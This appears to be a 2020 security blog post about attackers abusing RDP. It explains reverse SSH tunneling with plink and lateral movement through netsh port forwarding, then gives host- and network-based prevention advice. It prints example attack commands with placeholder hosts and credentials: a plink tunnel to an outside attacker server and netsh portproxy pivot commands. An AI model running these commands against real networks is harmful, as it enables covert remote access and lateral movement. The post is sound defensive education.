 ```yaml
---
layout: post
title:  "Exploiting Remote Workers with RDP"
description: "A brief post on how RDP access can be exploited by attackers"
date:   2020-03-27 13:00:01 +0000
tags: [Blue-Team, Red-Team, Pentest, Security]
---
```


![Attacking RDP](/assets/malware.png)

## Introduction

Remote Desktop Protocol (RDP) or the Microsoft Remote Desktop Services (MSRDS) is used at various organisations for the convenience of
system administrators, engineers, and usually a small pool or remote workers. With the recent outbreak of COVID-19 we are now seeing
unprecedented use of this protocol to facilitate remote working for all employees.

However, there is a darkside to RDP; It is known that sophisticated attackers can abuse this level of access to facilitate external access
into internal networks. This access is normally blocked by a firewall or security gateway device, but once a foothold has been established, 
an attackers will launch their tried and tested techniques of persistence:
 * sniffing/searching for credentials, 
 * installing keyloggers 
 * installing backdoors
 * installing additional malware/ransomware?
 
![RDP Out](/assets/RDP-tunnel-out.png)

Figure 1. Traffic from the Internet is blocked by the firewall. However, a misconfigured firewall permits enterprise network traffic to reach the attacker server.

## RDP Tunneling

A common tool on windows used to tunnel RDP sessions is PuTTY Link (plink):
 * [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Plink can be used to establish a Secure SHell (SSH) connection to an external system using arbitrary ports. You may think this communication
is one way, like fetching a webpage in a browser, but actually this opens up the possibility for the attacker to open up a two-way communication
channel. 

This particular method has been used by the APT groups FIN7 & FIN8 to attacker banking systems.

![RDP 2-way comms via tunnel](/assets/RDP-tunnel-comms.png) 

Figure 2. Using a plink tunnel, an attacker can set up a communication tunnel between their attacking server, and the compromised network host.

Example command:
```
plink.exe <users>@<IP or domain> -pw <password> -P 22 -2 -4 -T -N -C -R 12345:127.0.0.1:3389
```
At this point it should be noted that for an attacker to be able to RDP to a system, they must already have access to the system through other means of compromise in order to create or access the necessary tunneling utility. 
 * For example, an attacker’s initial system compromise could have been the result of a payload dropped from a phishing email aimed at establishing a foothold into the environment.
 * Also plink is not installed on systems by default, but is one of the favourite system administrator tools, so either the attacker has found this already installed, or has installed it themselves.
 
## Jump Box / Pivoting

RDP sessions can be daisy-chained across multiple systems as a way to move laterally through a network. Our Incident Response Team has observed threat actors using the native Windows Network Shell (netsh) command to utilise RDP port forwarding as a way to access newly discovered segmented networks reachable only through an administrative jump box.

Example netsh Port Forwarding Command:
```
netsh interface portproxy add v4tov4 listenport=8001 listenaddress=<JUMP BOX IP> connectport=3389 connectaddress=<DESTINATION IP>
```
Example Shortened netsh Port Forwarding Command:
```
netsh I p a v l=8001 listena=<JUMP BOX IP> connectp=3389 c=<DESTINATION IP>
```
For example, a threat actor could configure the jump box to listen on an arbitrary port for traffic being sent from a previously compromised system. The traffic would then be forwarded directly through the jump box to any system on the segmented network using any designated port, including the default RDP port TCP 3389. This type of RDP port forwarding gives threat actors a way to utilize a jump box’s allowed network routes without disrupting legitimate administrators who are using the jump box during an ongoing RDP session.

## Prevention and Detection of RDP Tunneling
If RDP is enabled, threat actors have a way to move laterally and maintain presence in the environment through tunneling or port forwarding. To mitigate vulnerability to and detect these types of RDP attacks, organizations should focus on both host-based and network-based prevention and detection mechanisms.

### Host-Based Prevention:

 * Disable the remote desktop service on all end-user workstations and systems for which the service is not required for remote connectivity.
 * Enable host-based firewall rules that explicitly deny inbound RDP connections.
 * Prevent the use of RDP using local accounts on workstations by enabling the “Deny log on through Remote Desktop Services” security setting.
 
### Network-Based Prevention:

 * Where RDP is required for connectivity, enforce the connection to be initiated from a designated jump box or centralized management server.
 * Employ the “Deny log on through Remote Desktop Services” security setting for privileged accounts (e.g. domain administrators) and service accounts, as these types of accounts are commonly used by threat actors to laterally move to sensitive systems in an environment.
 
## Conclusion

RDP enables IT environments to offer freedom and interoperability to users. But with more and more threat actors using RDP to move laterally across networks with limited segmentation, security teams are being challenged to decipher between legitimate and malicious RDP traffic. Therefore, adequate host-based and network-based prevention and detection methods should be taken to actively monitor for and be able to identify malicious RDP usage.